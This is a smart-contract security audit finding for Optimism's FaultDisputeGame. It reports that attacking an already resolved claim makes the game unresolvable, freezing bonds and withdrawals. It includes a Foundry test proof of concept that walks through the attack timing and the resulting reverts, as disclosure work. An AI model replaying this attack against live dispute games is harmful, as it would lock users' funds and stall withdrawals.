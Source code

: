 Tame Orchid Snail

high

# `FaultDisputeGame:move` can be called after `resolveClaim` makes the game unable to be resolved

## Summary

Depending on how the time was spent by each team, move/attack/defend may be able to be called on resolved claim. It will lead to un-resolvable game, resulting in the frozen bond and it may undermine withdrawal process of OptimismPortal2.

## Vulnerability Detail

In the proof of concept below shows a case where `attack` was made on a resolved claim, ending up the game to be frozen (not resolvable anymore):

In below code the following scenario is played out:
1. attack move was done four times resulting in five nodes: `0(root) - 1 - 2 - 3 -4`. Note that the challenger team tooke longer time than the defender team.
2. time was passed. The time was chosen so that it has passed enough to resolve one of the challenger's node but still has time left for the defender's team to make a move
3. challenger's node 3 is resolved
4. now a malicious actor alice will make a move on the resolved challenger's node 3.
5. enough time is passed for both challenger/defender can resolve nodes
6. the alice's node can be resolved, therefore the alice will get her bond back (with delay)
7. the node 3, that alice attacked, cannot be resolved, as it was already resolved before the alice's move
8. the node 2, the parent of node 3, cannot be resolved, as node 3 still has a child (the alice's node is still in the subgames of node 3, since the node 3 itself cannot be resolved after the new node added).
9. all the node upwards from node 3, as well as the entire `resolve` function cannot be resolved for the same error of `OutOfOrderResolution`.

Note that alice does not care about the game's resolution, therefore she will just pick a side with less time left, resolve any node from that team when it is possible to resolve, then make a move on the resolved node. Given it is more common to have different durations of the game spent by each team, it is likely that a malicious actor can find such a time window for many games. Therefore, it is very well possible to keep diasbling games using this vulnerability, resulting in freezing the withdrawals on the OptimismPortal2 for a while.

Also note that alice herself does not lock the bond for herself as she can resolve her own node. It means the cost of attack is not as high as the damage caused.

If the optimism protocol notices these rogue activities, they can recover all funds locked using the owner account of the DelayedWETH. Also, the Alice may lose her bonds, if the rescue of fund was before her withdrawal. Nevertheless, the optimism team will not make the game to resolve once the game is in this frozen state.

```solidity
// a function in FaultDisputeGame_Test
    function test_attack_resolved_node() public {
        // Alice will make the resolve not possible
        address alice = address(0xa11ce);
        vm.deal(alice, 100 ether);

        // challenger takes longer time
        vm.warp(block.timestamp + 2000 seconds);
        gameProxy.attack{ value: _getRequiredBond(0) }(0, _dummyClaim());
        vm.warp(block.timestamp + 10 seconds);
        gameProxy.attack{ value: _getRequiredBond(1) }(1, _dummyClaim());
        vm.warp(block.timestamp + 2000 seconds);
        gameProxy.attack{ value: _getRequiredBond(2) }(2, _dummyClaim());
        vm.warp(block.timestamp + 30 seconds);
        gameProxy.attack{ value: _getRequiredBond(3) }(3, _dummyClaim());


        // This timestamp is chosen
        // 1. to be able to resolve challenger's node (3)
        // 2. to be able to still have time left for defender
        vm.warp(1691213394);

        // challenger node 3 is resolved
        gameProxy.resolveClaim(3);

        // defender could still attack on the node 3
        // Alice will attack on already resolved node
        vm.startPrank(alice);
        // this will be 5th
        gameProxy.attack{ value: _getRequiredBond(3) }(3, _dummyClaim());
        vm.stopPrank();

        // random time passed long enough all the claims can be resolved
        vm.warp(block.timestamp + 7 days);

        // Alice can get the bond back with delay
        uint beforeCredit = gameProxy.credit(alice);
        gameProxy.resolveClaim(5);
        assertEq(_getRequiredBond(3), gameProxy.credit(alice) - beforeCredit);

        // Any node above can be resolved anymore -> the bond will be frozen due to
        // 1. ClaimAlreadyResolved: for the node already resolved
        vm.expectRevert(abi.encodeWithSignature("ClaimAlreadyResolved()"));
        gameProxy.resolveClaim(3);
        // 2. OutOfOrderResolution, since the node 3 cannot be resolved (above)
          // also the node 3 has a child 5
        vm.expectRevert(abi.encodeWithSignature("OutOfOrderResolution()"));
        gameProxy.resolveClaim(2);
        vm.expectRevert(abi.encodeWithSignature("OutOfOrderResolution()"));
        gameProxy.resolveClaim(1);
        vm.expectRevert(abi.encodeWithSignature("OutOfOrderResolution()"));
        gameProxy.resolveClaim(0);
        vm.expectRevert(abi.encodeWithSignature("OutOfOrderResolution()"));
        gameProxy.resolve();
    }
```

The cause of the bug is from mismatch the checks between
1. creation of a new move
2. resolution of a node

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L268-L284

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L412-L416


As it was shown in the example above, there might be a moment in time when it is possible to resolve a node, yet it is also possible to make a move on the node. If it happens in that order, the node in question cannot be resolved, since it is already resolved. At the same time, since a new move was made on the node, the node has this new child. This leads to OutOfOrder resolution, if any node upwards is tried to be resolved.

## Impact

It gives malicious actors relatively cheap way (unless they get caught in time) to freeze the withdrawal process, by disable any resolution of games.

## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L268-L284

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L412-L416

## Tool used

Manual Review

## Recommendation

Due to the complexity of the game contract and the intention of the protocol, it is unclear what would be the best way to mitigate this issue.

One possibility is to wait for the full `GAME_DURATION` to resolve any claim. However, it will essentially double the delay, which is probably not desireable.

